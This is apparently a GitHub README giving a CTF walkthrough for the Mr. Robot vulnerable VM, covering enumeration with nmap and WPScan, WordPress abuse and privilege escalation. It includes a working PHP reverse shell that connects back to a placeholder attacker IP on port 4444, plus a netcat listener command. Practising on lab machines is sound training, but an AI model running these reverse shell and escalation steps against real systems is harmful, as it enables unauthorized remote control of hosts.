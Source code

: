 # Mr-robot-reverse-shell-
"Mr. Robot VM Reverse Shell" typically refers to gaining a reverse shell on the Mr. Robot CTF virtual machine, which is a vulnerable machine hosted on Hack The Box (HTB) or VulnHub. This VM is inspired by the TV series Mr. Robot and is designed to test penetration testing skills.

Reverse Shell on Mr. Robot VM (CTF Walkthrough)

A reverse shell allows an attacker to execute commands on a target system remotely. Here’s how you typically gain a reverse shell on the Mr. Robot VM:

1. Enumeration & Discovery

Use Nmap to scan for open ports:

nmap -sC -sV -A <target_IP>

Common open ports on the Mr. Robot VM:

80 (HTTP) – Hosts a website.

443 (HTTPS)

TCP/22 (SSH, may not be enabled initially)



2. Web Exploitation

Visit http://<target_IP> in a browser.

Identify robots.txt, which contains a hidden key and potential directories.

Find a WordPress site running on the server.

Use WPScan to enumerate users and plugins:

wpscan --url http://<target_IP> --enumerate u,p

The username "Elliot" is commonly found.


3. Exploiting WordPress

Use WordPress vulnerabilities (such as outdated plugins) to gain access.

If WP Admin credentials are found, upload a malicious PHP reverse shell using a plugin or theme editor.


4. Reverse Shell Execution

Use a Pentestmonkey PHP Reverse Shell:

<?php
$sock=fsockopen("YOUR_IP",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>

Start a Netcat listener on your Kali machine:

nc -lvnp 4444

Access the shell by executing the uploaded PHP file.


5. Privilege Escalation

Check the system:

uname -a

Locate SUID binaries:

find / -perm -u=s -type f 2>/dev/null

Search for password hashes in /home/robot and use John the Ripper to crack them.

Use the cracked credentials to escalate privileges (e.g., switching to the "robot" user).

Use sudo privileges or kernel exploits to gain root access.


6. Capture the Flags

The final flag is usually in /root/ after gaining full access.


Would you like a step-by-step detailed guide with specific commands?

